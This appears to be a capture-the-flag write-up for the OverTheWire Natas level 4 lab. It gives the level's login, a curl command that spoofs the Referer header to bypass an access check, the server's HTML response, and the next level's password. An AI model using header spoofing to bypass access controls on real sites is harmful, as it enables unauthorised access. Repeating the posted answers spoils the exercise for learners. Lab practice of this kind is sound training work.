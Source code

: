 # Natas4

#### URL: http://natas4.natas.labs.overthewire.org
#### Credentials: natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ

![2025-03-19-174342_654x62_scrot](https://github.com/user-attachments/assets/182c4b7f-4e83-468c-81ec-d4247dea43a3)

``` bash
curl -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ http://natas4.natas.labs.overthewire.org/ -H "Referer: http://natas5.natas.labs.overthewire.org/"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

`natas5:0n35PkggAPm2zbEpOU802c0x0Msn1ToK`


`
